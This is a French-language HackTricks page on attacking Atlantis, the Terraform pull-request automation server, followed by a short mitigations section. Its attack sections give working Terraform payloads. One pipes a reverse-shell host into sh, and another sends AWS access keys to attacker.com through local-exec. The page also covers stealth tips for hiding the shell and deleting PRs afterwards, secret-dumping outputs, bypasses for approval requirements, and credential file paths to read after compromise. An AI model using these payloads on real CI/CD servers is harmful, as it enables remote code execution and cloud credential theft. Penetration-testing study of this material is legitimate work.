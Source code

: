 # Sécurité Atlantis

<details>

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

## Informations de base

Atlantis vous aide essentiellement à exécuter Terraform à partir des demandes de tirage de votre serveur git.

![](<../.gitbook/assets/image (161).png>)

## Laboratoire local

1. Allez sur la page des **versions d'atlantis** à [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases) et **téléchargez** celle qui vous convient.
2. Créez un **jeton personnel** (avec accès au dépôt) de votre utilisateur **github**
3. Exécutez `./atlantis testdrive` et il créera un **dépôt de démonstration** que vous pouvez utiliser pour **communiquer avec atlantis**
1. Vous pouvez accéder à la page web à 127.0.0.1:4141

## Accès à Atlantis

### Informations d'identification du serveur Git

**Atlantis** prend en charge plusieurs hôtes git tels que **Github**, **Gitlab**, **Bitbucket** et **Azure DevOps**.\
Cependant, pour accéder aux dépôts sur ces plateformes et effectuer des actions, il doit disposer de certains **accès privilégiés qui lui sont accordés** (au moins des autorisations d'écriture).\
[**La documentation**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional) encourage à créer un utilisateur spécifiquement pour Atlantis sur ces plateformes, mais certaines personnes pourraient utiliser des comptes personnels.

{% hint style="warning" %}
Dans tous les cas, du point de vue d'un attaquant, le **compte Atlantis** va être très **intéressant à compromettre**.
{% endhint %}

### Webhooks

Atlantis utilise facultativement des [**secrets de webhook**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret) pour valider que les **webhooks** qu'il reçoit de votre hôte Git sont **légitimes**.

Une façon de confirmer cela serait de **autoriser les requêtes à venir uniquement des IPs** de votre hôte Git, mais une manière plus simple est d'utiliser un Secret de Webhook.

Notez que sauf si vous utilisez un serveur github ou bitbucket privé, vous devrez exposer les points de terminaison de webhook à Internet.

{% hint style="warning" %}
Atlantis va **exposer des webhooks** pour que le serveur git puisse lui envoyer des informations. Du point de vue d'un attaquant, il serait intéressant de savoir **si vous pouvez lui envoyer des messages**.
{% endhint %}

### Informations d'identification du fournisseur <a href="#provider-credentials" id="provider-credentials"></a>

[De la documentation :](https://www.runatlantis.io/docs/provider-credentials.html)

Atlantis exécute Terraform en simplement **exécutant les commandes `terraform plan` et `apply`** sur le serveur **sur lequel Atlantis est hébergé**. Tout comme lorsque vous exécutez Terraform localement, Atlantis a besoin des informations d'identification spécifiques à votre fournisseur.

C'est à vous de décider comment vous [fournissez les informations d'identification](https://www.runatlantis.io/docs/provider-credentials.html#aws-specific-info) pour votre fournisseur spécifique à Atlantis :

* Le Chart Helm d'Atlantis et le Module AWS Fargate ont leurs propres mécanismes pour les informations d'identification du fournisseur. Consultez leur documentation.
* Si vous exécutez Atlantis dans un cloud, de nombreux clouds ont des moyens de donner accès à l'API cloud aux applications qui y sont exécutées, par exemple :
* [Rôles EC2 AWS](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) (Recherchez "Rôle EC2")
* [Comptes de service d'instance GCE](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* De nombreux utilisateurs définissent des variables d'environnement, par exemple `AWS_ACCESS_KEY`, là où Atlantis s'exécute.
* D'autres créent les fichiers de configuration nécessaires, par exemple `~/.aws/credentials`, là où Atlantis s'exécute.
* Utilisez le [Fournisseur HashiCorp Vault](https://registry.terraform.io/providers/hashicorp/vault/latest/docs) pour obtenir les informations d'identification du fournisseur.

{% hint style="warning" %}
Le **conteneur** où **Atlantis** est **exécuté** contiendra très probablement des informations d'identification privilégiées pour les fournisseurs (AWS, GCP, Github...) que Atlantis gère via Terraform.
{% endhint %}

### Page Web

Par défaut, Atlantis exécutera une **page web sur le port 4141 en localhost**. Cette page vous permet simplement d'activer/désactiver l'application d'atlantis et de vérifier l'état du plan des dépôts et de les déverrouiller (elle ne permet pas de modifier les choses, donc elle n'est pas très utile).

Vous ne la trouverez probablement pas exposée à Internet, mais il semble qu'en **général, aucune identification n'est nécessaire** pour y accéder (et si c'est le cas, `atlantis`:`atlantis` sont les **identifiants par défaut**).

## Configuration du serveur

La configuration du `serveur atlantis` peut être spécifiée via des indicateurs en ligne de commande, des variables d'environnement, un fichier de configuration ou une combinaison des trois.

* Vous pouvez trouver [**ici la liste des indicateurs**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration) pris en charge par le serveur Atlantis
* Vous pouvez trouver [**ici comment transformer une option de configuration en une variable d'environnement**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)

Les valeurs sont **choisies dans cet ordre** :

1. Indicateurs
2. Variables d'environnement
3. Fichier de configuration

{% hint style="warning" %}
Notez que dans la configuration, vous pourriez trouver des valeurs intéressantes telles que des **jetons et des mots de passe**.
{% endhint %}

### Configuration des dépôts

Certaines configurations affectent **la gestion des dépôts**. Cependant, il est possible que **chaque dépôt nécessite des paramètres différents**, il existe donc des moyens de spécifier chaque dépôt. Voici l'ordre de priorité :

1. Fichier [**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config). Ce fichier peut être utilisé pour spécifier comment atlantis doit traiter le dépôt. Cependant, par défaut, certaines clés ne peuvent pas être spécifiées ici sans certains indicateurs le permettant.
1. Probablement nécessaire d'être autorisé par des indicateurs comme `allowed_overrides` ou `allow_custom_workflows`
2. [**Configuration côté serveur**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) : Vous pouvez la passer avec l'indicateur `--repo-config` et c'est un yaml configurant de nouveaux paramètres pour chaque dépôt (les regex sont pris en charge)
3. Valeurs **par défaut**
#### Protections des PR

Atlantis permet d'indiquer si vous souhaitez que la **PR** soit **`approuvée`** par quelqu'un d'autre (même si cela n'est pas défini dans la protection de la branche) et/ou soit **`fusionnable`** (protections de branche passées) **avant d'exécuter apply**. D'un point de vue sécurité, il est recommandé de définir les deux options.

Dans le cas où `allowed_overrides` est True, ces paramètres peuvent être **remplacés sur chaque projet par le fichier `/atlantis.yml`**.

#### Scripts

La configuration du dépôt peut **spécifier des scripts** à exécuter [**avant**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage) (_hooks de pré-workflow_) et [**après**](https://www.runatlantis.io/docs/post-workflow-hooks.html) (_hooks de post-workflow_) l'exécution d'un **workflow**.

Il n'y a pas d'option permettant de **spécifier** ces scripts dans le fichier **`/atlantis.yml`** du dépôt.

#### Workflow

Dans la configuration du dépôt (configuration côté serveur), vous pouvez [**spécifier un nouveau workflow par défaut**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow), ou [**créer de nouveaux workflows personnalisés**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**.** Vous pouvez également **spécifier** quels **dépôts** peuvent **accéder** aux **nouveaux** workflows générés.\
Ensuite, vous pouvez autoriser le fichier **atlantis.yaml** de chaque dépôt à **spécifier le workflow à utiliser**.

{% hint style="danger" %}
Si le drapeau de configuration côté serveur [**server side config**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allow_custom_workflows` est défini sur **True**, les workflows peuvent être **spécifiés** dans le fichier **`atlantis.yaml`** de chaque dépôt. Il peut également être potentiellement nécessaire que **`allowed_overrides`** spécifie également **`workflow`** pour **remplacer le workflow** qui va être utilisé.\
Cela donnera essentiellement une **RCE dans le serveur Atlantis à tout utilisateur pouvant accéder à ce dépôt**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Vérification des politiques Conftest

Atlantis prend en charge l'exécution des **politiques** [**conftest**](https://www.conftest.dev/) côté **serveur** sur la sortie du plan. Les cas d'utilisation courants pour l'utilisation de cette étape incluent :

* Refuser l'utilisation d'une liste de modules
* Affirmer les attributs d'une ressource au moment de sa création
* Attraper les suppressions de ressources involontaires
* Prévenir les risques de sécurité (c'est-à-dire exposer des ports sécurisés au public)

Vous pouvez vérifier comment le configurer dans [**la documentation**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works).

## Commandes Atlantis

Dans [**la documentation**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis), vous pouvez trouver les options que vous pouvez utiliser pour exécuter Atlantis :
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## Attaques

{% hint style="warning" %}
Si lors de l'exploitation vous rencontrez cette **erreur** : `Error: Error acquiring the state lock`

Vous pouvez la corriger en exécutant :
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Plan RCE d'Atlantis - Modification de la configuration dans une nouvelle PR

Si vous avez un accès en écriture sur un dépôt, vous pourrez créer une nouvelle branche et générer une PR. Si vous pouvez **exécuter `atlantis plan`** (ou peut-être qu'il est exécuté automatiquement), **vous pourrez exécuter du code à distance (RCE) à l'intérieur du serveur Atlantis**.

Vous pouvez le faire en faisant [**charger à Atlantis une source de données externe**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Il suffit de mettre une charge utile comme celle-ci dans le fichier `main.tf` :
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Attaque plus discrète

Vous pouvez effectuer cette attaque de manière encore plus discrète, en suivant ces suggestions :

* Au lieu d'ajouter directement le shell inversé dans le fichier terraform, vous pouvez **charger une ressource externe** contenant le shell inversé :
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Vous pouvez trouver le code de rev shell dans [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Dans la ressource externe, utilisez la fonction **ref** pour masquer le **code de rev shell terraform dans une branche** à l'intérieur du dépôt, quelque chose comme : `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **Au lieu de** créer une **PR vers master** pour déclencher Atlantis, **créez 2 branches** (test1 et test2) et créez une **PR de l'une vers l'autre**. Lorsque vous avez terminé l'attaque, **supprimez simplement la PR et les branches**.

### Atlantis plan Secrets Dump

Vous pouvez **extraire les secrets utilisés par terraform** en exécutant `atlantis plan` (`terraform plan`) en ajoutant quelque chose comme ceci dans le fichier terraform :
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis appliquer RCE - Modification de la configuration dans une nouvelle PR

Si vous avez un accès en écriture sur un dépôt, vous pourrez créer une nouvelle branche et générer une PR. Si vous pouvez **exécuter `atlantis apply`, vous pourrez exécuter une RCE à l'intérieur du serveur Atlantis**.

Cependant, vous devrez généralement contourner certaines protections :

- **Fusionnable** : Si cette protection est définie dans Atlantis, vous ne pourrez exécuter **`atlantis apply` que si la PR est fusionnable** (ce qui signifie que la protection de la branche doit être contournée).
- Vérifiez les [**contournements de protections de branche potentiels**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
- **Approuvé** : Si cette protection est définie dans Atlantis, un **autre utilisateur doit approuver la PR** avant que vous puissiez exécuter `atlantis apply`
- Par défaut, vous pouvez abuser du [**jeton Gitbot pour contourner cette protection**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

Exécuter **`terraform apply` sur un fichier Terraform malveillant avec** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Vous devez simplement vous assurer qu'une charge utile comme celles ci-dessous se termine dans le fichier `main.tf` :
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Suivez les **suggestions de la technique précédente** pour effectuer cette attaque de manière plus **discrète**.

### Injection de Paramètres Terraform

Lors de l'exécution de `atlantis plan` ou `atlantis apply`, terraform est exécuté en arrière-plan, vous pouvez transmettre des commandes à terraform depuis atlantis en commentant quelque chose comme suit :
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
### Workflow Personnalisé

L'exécution de **commandes de construction personnalisées malveillantes** spécifiées dans un fichier `atlantis.yaml`. Atlantis utilise le fichier `atlantis.yaml` de la branche de la demande de tirage, **pas** de `master`.\
Cette possibilité a été mentionnée dans une section précédente :

{% hint style="danger" %}
Si le drapeau de configuration côté serveur [**server side config**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) est défini sur **True**, les workflows peuvent être **spécifiés** dans le fichier **`atlantis.yaml`** de chaque dépôt. Il est également potentiellement nécessaire que **`allowed_overrides`** spécifie également **`workflow`** pour **remplacer le workflow** qui va être utilisé.

Cela donnera essentiellement une **RCE dans le serveur Atlantis à tout utilisateur pouvant accéder à ce dépôt**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### Contourner les protections de planification/exécution

Si le drapeau de configuration côté serveur `allowed_overrides` a `apply_requirements` configuré, il est possible pour un dépôt de **modifier les protections de planification/exécution pour les contourner**.
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### Piratage de PR

Si quelqu'un envoie des commentaires **`atlantis plan/apply` sur vos pull requests valides,** cela provoquera l'exécution de terraform lorsque vous ne le souhaitez pas.

De plus, si vous n'avez pas configuré dans la **protection de branche** pour demander de **réévaluer** chaque PR lorsqu'un **nouveau commit est poussé** dessus, quelqu'un pourrait **écrire des configurations malveillantes** (vérifiez les scénarios précédents) dans la configuration terraform, exécuter `atlantis plan/apply` et obtenir une RCE.

Voici le **paramètre** dans les protections de branche de Github:

![](<../.gitbook/assets/image (216).png>)

### Secret de Webhook

Si vous parvenez à **voler le secret de webhook** utilisé ou s'il n'y a **aucun secret de webhook** utilisé, vous pourriez **appeler le webhook Atlantis** et **invoquer directement des commandes atlantis**.

### Bitbucket

Bitbucket Cloud ne prend pas en charge les secrets de webhook. Cela pourrait permettre aux attaquants de **usurper des requêtes de Bitbucket**. Assurez-vous de n'autoriser que les adresses IP de Bitbucket.

* Cela signifie qu'un **attaquant** pourrait envoyer des **fausses requêtes à Atlantis** qui semblent provenir de Bitbucket.
* Si vous spécifiez `--repo-allowlist`, alors ils pourraient uniquement envoyer de fausses requêtes concernant ces dépôts, donc le plus de dégâts qu'ils pourraient faire serait de planifier/appliquer sur vos propres dépôts.
* Pour éviter cela, autorisez la liste blanche des [adresses IP de Bitbucket](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html) (voir Adresses IPv4 sortantes).

## Post-Exploitation

Si vous parvenez à accéder au serveur ou au moins si vous avez un LFI, voici quelques choses intéressantes que vous devriez essayer de lire:

* `/home/atlantis/.git-credentials` Contient les identifiants d'accès au VCS
* `/atlantis-data/atlantis.db` Contient les identifiants d'accès au VCS avec plus d'informations
* `/atlantis-data/repos/<nom_org>`_`/`_`<nom_du_repo>/<num_pr>/<espace_de_travail>/<chemin_vers_le_dossier>/.terraform/terraform.tfstate` Fichier d'état Terraform
* Exemple : /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` Variables d'environnement
* `/proc/[2-20]/cmdline` Ligne de commande de `atlantis server` (peut contenir des données sensibles)

## Atténuations

### Ne pas Utiliser Sur des Dépôts Publics <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

Parce que n'importe qui peut commenter sur des pull requests publics, même avec toutes les atténuations de sécurité disponibles, il est toujours dangereux d'exécuter Atlantis sur des dépôts publics sans une configuration appropriée des paramètres de sécurité.

### Ne pas Utiliser `--allow-fork-prs` <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

Si vous exécutez sur un dépôt public (ce qui n'est pas recommandé, voir ci-dessus), vous ne devriez pas définir `--allow-fork-prs` (par défaut à false) car n'importe qui peut ouvrir une pull request depuis leur fork vers votre dépôt.

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Atlantis vous oblige à spécifier une liste blanche des dépôts à partir desquels il acceptera les webhooks via le drapeau `--repo-allowlist`. Par exemple :

* Dépôts spécifiques : `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Toute votre organisation : `--repo-allowlist=github.com/runatlantis/*`
* Chaque dépôt dans votre installation GitHub Enterprise : `--repo-allowlist=github.yourcompany.com/*`
* Tous les dépôts : `--repo-allowlist=*`. Utile lorsque vous êtes dans un réseau protégé mais dangereux sans définir également un secret de webhook.

Ce drapeau garantit que votre installation Atlantis n'est pas utilisée avec des dépôts que vous ne contrôlez pas. Consultez `atlantis server --help` pour plus de détails.

### Protéger la Planification Terraform <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

Si les attaquants soumettent des pull requests avec du code Terraform malveillant dans votre modèle de menace, vous devez savoir que les approbations `terraform apply` ne suffisent pas. Il est possible d'exécuter du code malveillant dans un `terraform plan` en utilisant la [source de données `external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) ou en spécifiant un fournisseur malveillant. Ce code pourrait ensuite exfiltrer vos identifiants.

Pour prévenir cela, vous pourriez :

1. Intégrer les fournisseurs dans l'image Atlantis ou l'hôte et refuser la sortie en production.
2. Mettre en œuvre le protocole du registre des fournisseurs en interne et refuser la sortie publique, de cette manière vous contrôlez qui a un accès en écriture au registre.
3. Modifier l'étape `plan` de votre [configuration de dépôt côté serveur](https://www.runatlantis.io/docs/server-side-repo-config.html) pour valider contre l'utilisation de fournisseurs ou sources de données interdits ou des PR de utilisateurs non autorisés. Vous pourriez également ajouter une validation supplémentaire à ce stade, par exemple exiger un "thumbs-up" sur la PR avant de permettre la poursuite du `plan`. Conftest pourrait être utile ici.

### Secrets de Webhook <a href="#webhook-secrets" id="webhook-secrets"></a>

Atlantis doit être exécuté avec des secrets de webhook définis via les variables d'environnement `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET`. Même avec le drapeau `--repo-allowlist` défini, sans secret de webhook, les attaquants pourraient envoyer des requêtes à Atlantis en se faisant passer pour un dépôt qui est sur la liste blanche. Les secrets de webhook garantissent que les requêtes de webhook proviennent réellement de votre fournisseur de VCS (GitHub ou GitLab).

Si vous utilisez Azure DevOps, au lieu de secrets de webhook, ajoutez un nom d'utilisateur et un mot de passe de base.

### Authentification de Base Azure DevOps <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

Azure DevOps prend en charge l'envoi d'un en-tête d'authentification de base dans tous les événements de webhook. Cela nécessite d'utiliser une URL HTTPS pour l'emplacement de votre webhook.

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

Si vous utilisez des secrets de webhook mais que votre trafic est en HTTP, les secrets de webhook pourraient être volés. Activez SSL/HTTPS en utilisant les drapeaux `--ssl-cert-file` et `--ssl-key-file`.

### Activer l'Authentification sur le Serveur Web Atlantis <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

Il est fortement recommandé d'activer l'authentification dans le service web. Activez BasicAuth en utilisant le `--web-basic-auth=true` et configurez un nom d'utilisateur et un mot de passe en utilisant les drapeaux `--web-username=yourUsername` et `--web-password=yourPassword`.

Vous pouvez également passer ces informations en tant que variables d'environnement `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=yourUsername` et `ATLANTIS_WEB_PASSWORD=yourPassword`.

## Références

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez** 💬 le [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
